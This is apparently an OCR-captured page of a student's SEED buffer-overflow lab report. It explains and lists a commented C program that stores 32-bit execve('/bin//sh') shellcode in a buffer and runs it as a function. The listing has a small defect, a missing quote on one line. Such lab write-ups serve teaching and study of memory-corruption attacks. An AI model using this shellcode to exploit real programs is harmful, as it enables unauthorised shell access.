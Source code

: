 \documentclass[14pt]{extarticle}
\begin{document}
I can take the assembly of the previous code (after it has been compiled) and place the assembly in a buffer of a new program. The assembly of the original shell code program above is much different than the assembly that is in the given call_shellcode program from the lab. This is most likely due to the changes in gcc since the release of this lab. 
To test the assembly code of the above program, I can create a program "call_shellcode" which will simulate an actual attack. I can place the assembly code of the previous program into a buffer in a new program. This new program will execute the code stored in a buffer by referencing to the buffer's location in memory as a function. Since the buffer is filled with executable hex code, the program will continue to execute the hex code as if it were a normal program \cite{seed-bof}.
The new program will look like this:
\begin{lstlisting}[language=c]
/* call_shellcode.c */
/* A program that launches a shell using shellcode */
// in order to run the execve function in the assembly code, I need to include a few libraries
#include <stdlib.h>
#include <stdio.h>
// the string library will help with holding the assembly code in a character array
#include <string.h>
const char code[] =
	// xor a register with it's self to clear it
    "\x31\xc0"       /* Line 1:     xorl       \%eax,\%eax        */
	// push the null value to the stack
    "\x50            /* Line 2:     pushl      \%eax             */
	// push the value "//sh" to the stack, double // is used to make 32 bit number
    "\x68""//sh"     /* Line 3:     pushl      \$0x68732f2f      */
	// push the value "/bin" to the stack
    "\x68""/bin"     /* Line 4:     pushl      \$0x6e69622f      */
	// copy location of the name[ 0 ] parameter to register ebx
    "\x89\xe3"       /* Line 5:     movl       \%esp,\%ebx        */
    // push another null value to the stack
    "\x50"           /* Line 6:     pushl      \%eax             */
	// push the ebx register to the stack
    "\x53"           /* Line 7:     pushl      \%ebx             */
	// copy location of name parameter to register ecx
    "\x89\xe1"       /* Line 8:     movl       \%esp,\%ecx        */
	// sets edx to zero. \cite{seed-bof}
    "\x99"           /* Line 9:     cdq                         */
	// copy the value of register al to 11
    "\xb0\x0b"       /* Line 10:    movb       \$0x0b,\%al        */
	// create an interrupt and execute code at location 0x80 (execve command)  \cite{intel-asm}
    "\xcd\x80"       /* Line 11:    int        \$0x80            */
;
int main(int argc, char **argv)
{
	// create a buffer to hold the assembly code
    char buf[sizeof(code)];
	// copy the code into the buffer
    strcpy(buf, code);
	// call the assembly code in the buffer as-if it were a function.
    ((void(*)( ))buf)( );
}
\end{lstlisting}
\end{document}
